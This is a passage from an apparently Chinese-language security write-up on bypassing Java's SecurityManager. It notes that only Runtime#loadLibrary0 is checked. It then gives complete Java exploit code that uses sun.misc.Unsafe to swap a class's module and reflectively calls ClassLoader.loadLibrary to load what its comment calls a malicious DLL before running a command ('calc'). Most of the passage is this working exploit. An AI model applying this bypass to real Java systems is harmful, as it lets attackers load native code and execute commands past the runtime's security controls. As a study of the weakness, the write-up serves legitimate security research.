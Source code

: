 在其中发现，只有 `java.lang.Runtime#loadLibrary0`会进行 `SecurityManager`检查

![图片](assets/1709279808-ccf7f8bcdb54eff78cc06f6cc58cfe66.png)

这就好办了，直接反射调用后面的方法就行

最终实现代码：

```plain
package zk_backup_0.configs.conf1;

import sun.misc.Unsafe;

import java.io.File;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class ExpBypass7 {

    public static void main(String[] args) throws IOException {

        try {
            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            Module module = Object.class.getModule();
            Class<?> currentClass = ExpBypass7.class;

            long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass, addr, module);

            // 反射调用java.lang.ClassLoader#loadLibrary(java.lang.Class<?>, java.lang.String)加载恶意动态链接库
            Class<?> clz = ClassLoader.class;
            Method method = clz.getDeclaredMethod("loadLibrary", Class.class, File.class);
            method.setAccessible(true);
            File file = new File("D:\\xxx\\zk_backup_0\\configs\\conf1\\cmd.dll");
            method.invoke(null, currentClass, file);

        } catch (Exception e) {
            e.printStackTrace();
        }

        CommandExec commandExec = new CommandExec();
        String cmd = commandExec.exec("calc");
    }
}
```

